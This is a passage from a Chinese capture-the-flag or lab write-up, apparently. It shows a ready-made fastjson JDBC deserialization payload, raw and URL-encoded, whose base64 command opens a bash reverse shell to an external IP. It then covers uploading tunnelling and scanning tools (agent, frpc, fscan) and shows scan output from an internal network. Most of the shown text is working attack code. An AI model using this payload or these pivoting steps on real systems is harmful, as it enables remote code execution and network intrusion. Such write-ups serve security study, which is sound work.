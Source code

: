 这里要注意一下，打 JDBC 洞用到的 cc6 这条链子对 java 的版本有要求的，只有使用的 openjdk version "1.8.0\_382"不能成功利用，换成 1.1.0 版本的就可以成功成功利用

payload

```bash
{ "name": { "@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "120.77.200.94", "portToConnectTo": 3306, "info": { "user": "yso_CommonsCollections6_bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80My4xMzguNTAuNzIvMzMzMyAwPiYx}|{base64,-d}|{bash,-i}", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" } }
```

url 编码一下

```bash
7B%20%22name%22%3A%20%7B%20%22%40type%22%3A%20%22java.lang.AutoCloseable%22%2C%20%22%40type%22%3A%20%22com.mysql.jdbc.JDBC4Connection%22%2C%20%22hostToConnectTo%22%3A%20%22120.77.200.94%22%2C%20%22portToConnectTo%22%3A%203306%2C%20%22info%22%3A%20%7B%20%22user%22%3A%20%22yso_CommonsCollections6_bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC80My4xMzguNTAuNzIvMzMzMyAwPiYx%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%22%2C%20%22password%22%3A%20%22pass%22%2C%20%22statementInterceptors%22%3A%20%22com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor%22%2C%20%22autoDeserialize%22%3A%20%22true%22%2C%20%22NUM_HOSTS%22%3A%20%221%22%20%7D%20%7D
```

[![](assets/1707954377-1af258fd67f16b09d47a4287072e1e95.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173751-109698b2-c341-1.png)

成功弹到 shell 并取得 flag

## flag2

我们先上传我们的三大件，agent，frpc，fscan

上传完成后我们用 fscan 扫一下

```bash
___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
(icmp) Target 172.22.3.12     is alive
(icmp) Target 172.22.3.2      is alive
(icmp) Target 172.22.3.9      is alive
(icmp) Target 172.22.3.26     is alive
[*] Icmp alive hosts len is: 4
172.22.3.9:8172 open
172.22.3.2:135 open
```